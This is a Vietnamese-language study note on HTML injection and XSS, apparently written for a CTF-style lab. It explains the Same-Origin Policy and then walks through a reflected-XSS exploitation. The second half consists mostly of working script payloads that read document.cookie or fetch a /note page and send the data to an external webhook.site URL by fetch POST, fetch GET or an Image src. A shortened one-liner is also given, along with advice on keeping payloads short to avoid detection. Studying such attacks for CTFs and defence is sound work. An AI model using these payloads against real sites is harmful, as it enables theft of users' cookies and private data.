



# HTML INJECTION

## Giới thiệu
HTML, hay còn gọi là Hyper Text Markup Language là ngôn ngữ được sử dụng để `tạo` và `cấu trúc` các thành phần trong trang web

Nếu ví Website như một con Robot thì `HTML` chính là `bộ khung` của Robot, `CSS` là phần `design` bên ngoài, còn `JavaScript` chính là các phần `máy móc` để Robot hoạt động.

**Cách trình duyệt xử lý HTML**
```
Dựa trên các thuộc tính có trong các tag HTML, browser sẽ render ra hình ảnh ấy và hiển thị cho người dùng
Chẳng hạn như .."> , hoặc với các tag khác như <h1> hay <p>, ...
```

**Làm thế nào Browser biết rằng response là một file HTML mà không phải là loại file khác?**



Đó chính là dựa vào Header `Content-Type`. Nếu Content-Type là : `text/html` thì browser sẽ render file HTML ấy và trả về cho người dùng

**Vậy đối tượng nào sẽ xử lý HTML?**

- HTML Rendering: Browsers, Application,...
- HTML Editor: Rich Text Editor, Markdown( Là cái thứ mà tôi đang sử dụng để viết cho các bạn đọc đây ),...

Quay lại với `bản chất` của Injection, đó chính là khiến đối tượng hiểu nhầm `Untrust Data` là `Instruction`

Vậy có những Instruction nào nguy hiểm mà attacker có thể lợi dụng không?

- Đó chính là lợi dụng tính năng `Tích hợp với JavaScript`, nơi xử lý các `Event Handller`


Vậy từ đó, chúng ta sẽ chuyển sang đối tượng JavaScript, tuy nhiên `root cause` của lỗi này vẫn là `HTML injection`

**Các tính năng chính của JavaScript**


Sẽ ra sao nếu trình duyệt xử lý Untrust HTML? Vậy attacker khiến trình duyệt nạn nhân xử lý Untrust HTML như thế nào?

**Viễn cảnh 1**
```
Khi attacker chèn mã JavaScript vào Web-App và gửi đến cho nạn nhân, mà mã JavaScript này có các hàm xử lý để truy xuất thông tin của nạn nhân. Vì Web-app không xử lý nội dung trả về, khiến cho trình duyệt xử lý đoạn script đó. (trường hợp này là XSS Reflected, tức là nhập gì vào thì sẽ phản chiếu lại cái đó)
```
**Viễn cảnh 2**

```
Khi attacker chèn mã JavaScript vào đâu đó được lưu trữ, và khi nạn nhân truy cập, nơi đó được SELECT ra và render cho nạn nhân, khiến mã JavaScript được thực thi (trường hợp này là XSS Store)
```
**Viễn cảnh xxx**

```
Social Engineering, ...
```
---
**Liệu ta có thể sử dụng JavaScript để đọc trộm thông tin từ một trang khác nào đó từ trang web của chúng ta không?**
- Câu trả lời là không. Vì các trình duyệt đều áp dụng cơ chế bảo mật SOP


Chính sách SOP hay còn gọi là `Same-Origin-Policy`, là bộ quy tắc để bảo vệ người dùng, tránh việc hai trang có `Origin` khác nhau tương tác với nhau (Đọc,ghi,...) với tài nguyên của nhau

**Vậy khi nào 2 trang web có chung một Origin?**
- Đó chính là khi 2 trang web có cùng chung : `protocol`, `host` và `port`

**Có những thông tin quan trọng của người dùng như thế nào mà attacker muốn lấy?**
- Có rất nhiều thông tin mà attacker muốn lấy từ người dùng, mà trong đó phổ biến nhất đó chính là `Cookie` (Cookie chỉ là một trong những hệ quả của việc Exploit XSS, `không phải trường hợp nào cũng là Cookie`)

---
## Tóm lại





---

# Exploitation : Reflected XSS

## Bước 1:

Thử chèn các tag html và xem trang web phản ứng như thế nào
Nếu phát hiện Injection được tag HTML thì đến bước tiếp theo

## Bước 2: HTML Injection chạy những tag JavaScript để trộm cookie hoặc fetch trang page /note về ( Tại vì page này chứa flag ) 

Mở Dev-tools và test những đoạn code JS Exploit trước

Đọc document.cookie:
 ```data.document.cookie;```


Fetch /note:
```JavaScript
fetch("/note").then(response => response.text()).then( data => console.log(data));
```

## Bước 3: Dùng	chính JavaScript để leak data ra ngoài Internet ( Cụ thể là Webhook ) 

Cách 1 để leak data ra: Đó là sử dụng chính Fetch API để tuồn data ra bằng method POST

fetch('/note').then(response => response.text()).then ( data => {
fetch("https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069", {
method : "POST",
body : data,
});
});

Cách 2 Tạo ra một tấm ảnh và gán đường dẫn là đường dẫn của Webhook để gửi HTTP 

**Lưu ý : Phải encode tất cả dấu + để tránh nhầm lẫn giữa kí tự [space]**
```data_leak = document.cookie 		// Gắn giá trị cookie vào biến data_leak
anh = new Image()   			// Tạo Object anh
anh.src = "https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069?leak="%2Bdata_leak	
// Lợi dụng thuộc tính .src để gửi gói `GET` đến địa chỉ cộng với biến `data_leak`
// Có thể sử dụng hàm unescapse để lấy cookie thật ( Vì đã được mã hoá URL )
```
## Bước 4: Tạo ra một payload hoàn chỉnh và gửi cho victim
Payload 1 : Tạo Image
``` 
URL_target?q=
<script>
URL_receive = "https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069?leak=";
data_leak = document.cookie;
anh = new Image();
anh.src =  URL_receive%2Bdata_leak;
</script> 
```
Payload 2 : Fetch API rồi sử dụng Fetch 1 lần nữa để gửi HTTP POST request đến Webhook.site

```
URL_target?q=
<script>
fetch('/note').then(response => response.text()).then ( data => {
fetch("https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069", {
method : "POST",
body : data,
});
});
</script>
```

Payload 3 : Tương tự như cách 2 nhưng là method GET

```
URL_target?q=
<script>
fetch('/note').then(response => response.text()).then ( data => {
fetch("https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069?data=" %2B data);
});
</script>
```
Payload xxx : Có rất nhiều cách để `tuồn` data ra ngoài, chẳng hạn như thay vì sử dung fetch API để gửi thì cũng có thể sử dụng Image để gửi

## Lưu ý :
**Cố gắng tạo một payload thật ngắn gọn để tránh việc bị phát hiện cũng như tối ưu hơn**

Thì cách tạo payload ngắn gọn như thế nào ----> Học và hiểu, thử và thử
Dưới đây là đoạn payload JS ngắn gọn trong trường hợp payload là image : 
`new Image().src = "https://webhook.site/43e77ad7-1442-4124-8f0d-8edff9f55069?leak="%2Bdocument.cookie`

---

**Kiến thức của mình tạm thời chỉ có thể đến đây, khi nào mình cảm thấy có thể lĩnh hội được nhiều hơn thì sẽ tiếp tục commit lại bài này!** 

**Cảm ơn các bạn đã đọc, cũng cảm ơn chính bản thân mình**